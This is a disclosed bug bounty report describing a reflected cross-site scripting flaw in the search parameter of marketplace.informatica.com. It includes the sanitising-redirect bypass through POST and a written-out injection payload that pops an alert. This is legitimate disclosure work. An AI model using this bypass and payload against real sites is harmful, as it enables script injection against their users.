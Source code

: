 # [marketplace.informatica.com] Search XSS

## Report Details
- **Report ID**: 200034
- **URL**: https://hackerone.com/reports/200034
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-01-20T21:00:43.260Z
- **Disclosed**: 2017-05-22T04:08:23.983Z

## Reporter
- **Username**: s_p_q_r
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
The search query parameter is put into Javascript to set the localStorage item:

https://marketplace.informatica.com/search-solr.jspa?q=%foo%

```javascript
localStorage.setItem("searchTerm", "%foo%");
```

Attempts to inject XSS payloads are blocked by redirection that removes special chars from the URL:

```http
GET /search-solr.jspa?q=aaa%22bbb%27ccc%3Cddd%3Eeee HTTP/1.1
Host: marketplace.informatica.com

HTTP/1.0 302 Found
Location: https://marketplace.informatica.com/search-solr.jspa?q=aaabbbcccdddeee
```

However it turns out the search param can be successfully submitted via POST — the following request popups an alert:

```http
POST /search-solr.jspa HTTP/1.1
Host: marketplace.informatica.com

q=%22-alert%28document.domain%29-%22
```

**PoC:**

http://spqr.zz.mu/info_mp.php?key=066c1cac-b380-4455-9d36-4086dd999dd9

Tested with latest Firefox and Chrome.

## Attachments
No attachments
